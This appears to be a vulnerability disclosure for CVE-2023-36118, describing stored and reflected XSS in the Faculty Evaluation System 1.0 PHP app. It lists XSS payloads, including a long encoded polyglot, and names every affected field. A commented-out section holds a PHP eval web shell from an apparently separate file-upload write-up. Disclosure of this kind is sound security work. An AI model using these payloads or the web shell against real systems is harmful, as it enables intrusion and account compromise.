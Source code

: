# Faculty Evaluation System 1.0

+ Vendor Homepage: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html
+ Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/eval_2.zip
+ Tested on: XAMPP + win10
+ XSS vuln
+ CVE ID: CVE-2023-36118
+ CVSS v3.1 `AV:L/AC:L/PR:H/UI:R/S:U/C:L/I:L/A:L/E:F/RL:W/RC:R/CR:L/IR:L/AR:L/MAV:L/MAC:L/MPR:H/MUI:R/MS:U/MC:L/MI:L/MA:L`

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/185ff8b6-5953-4219-9ef9-ab9f655ec5f3)

<!--
First, create a simple PHP script to trigger the vulnerability. The following PHP code will utilize the GET parameter and execute it through the eval() function:
 
**The $_GET[""] is passed to the eval() function, which means that the string will be interpreted as valid PHP code and executed. It allows the attacker to execute arbitrary PHP code.**

```php
<?php $code = $_GET['code'];
eval($code); ?>
```

When you see this page, you will know that the program has executed successfully. It seems that other tests can be performed.

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/7dbac24e-7e55-4050-8014-0b1ab115f15c)

+ echo shell_exec('whoami');  -->

![](https://hackmd.io/_uploads/B1KnDvgw2.png)

After pressing Set for each option
![](https://hackmd.io/_uploads/r1WcdDgw3.png)

stored xss
Entering the payload in the bottom box of most projects will trigger ->

I will write the details of the affected part at the end

[xss payload](https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt)
```
<script>alert(1)</script>
<img src=1 onerror=alert(1)>
<iframe src=javascript:alert(1)>
....

```

![](https://hackmd.io/_uploads/B1J2Dtlvn.png)
![](https://hackmd.io/_uploads/SyKpwFevh.png)

![](https://hackmd.io/_uploads/ByG2_Pevn.png)
![](https://hackmd.io/_uploads/Bys_b_lP2.png)
![](https://hackmd.io/_uploads/H1ysROxP3.png)


More interesting is this payload

```
xss%20%22%3E%3E%3Cmarquee%3E%3Cimg%20src=x%20onerror=confirm(/OPENBUGBOUNTY/)%3E%3C/marquee%3E%22%20%3E%3C/plaintext\%3E%3C/|\%3E%3Cplaintext/onmouseover=prompt(/OPENBUGBOUNTY/)%20%3E%3Cscript%3Eprompt(/OPENBUGBOUNTY/)%3C/script%3E@gmail.com%3Cisindex%20formaction=javascript:alert(1)%20type=submit%3E%27--%3E%22%20%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E%22%3E%3Cimg/id=%22confirm&lpar;%20OPENBUGBOUNTY)%22/alt=%22/%22src=%22/%22onerror=eval(id&%23x29;%3E%27%22%3E%3Cimg%20src=%22http:%20www.openbugbounty.org/images/design/openbugbounty-logo.png%22%3E%20%EF%BF%BC&show;=xss%20%22%3E%3E%3Cmarquee%3E%3Cimg%20src=x%20onerror=confirm(/OPENBUGBOUNTY/)%3E%3C/marquee%3E%22%20%3E%3C/plaintext\%3E%3C/|\%3E%3Cplaintext/onmouseover=prompt(/OPENBUGBOUNTY/)%20%3E%3Cscript%3Eprompt(/OPENBUGBOUNTY/)%3C/script%3E@gmail.com%3Cisindex%20formaction=javascript:alert(1)%20type=submit%3E%27--%3E%22%20%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/s
```
![](https://hackmd.io/_uploads/HyAyXOeP2.png)

Stored xss will cause
xss is triggered every time the page is visited

Affected vulnerable blocks:
```
On the page http://localhost/eval/, under "Manage Account," if an XSS payload is entered in the "First Name" and "Last Name" fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=, after entering a reflected XSS payload in the "page=" parameter, it can trigger an attack.

On the page http://localhost/eval/index.php?page=subject_list, under the "Manage subject" setting in the "Action" section, if an XSS payload is entered in the "Description" and "Subject" fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=class_list, under the "Manage class" setting in the "Action" section, if an XSS payload is entered in any of the fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=academic_list, under the "Manage" setting in the "Action" section, if an XSS payload is entered in the "Year" field, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=questionnaire, under the "Manage" setting in the "Action" section, in the "Question" field at the bottom of the page, if an XSS payload is entered, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=criteria_list, in the "Criteria" field, if an XSS payload is entered, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=faculty_list, after clicking "Edit" in the "Action" column, on the page http://localhost/eval/index.php?page=edit_faculty&id=, under the "Edit Faculty" section, if an XSS payload is entered in the "School ID," "First Name," and "Last Name" fields, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=student_list, after clicking "Edit" in the "Action" column, on the respective page, in the "School ID," "First Name," and "Last Name" fields, if an XSS payload is entered, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=user_list, after clicking "Edit" in the "Action" column, on the respective page, in the "First Name" and "Last Name" fields, if an XSS payload is entered, it can trigger stored XSS.
```
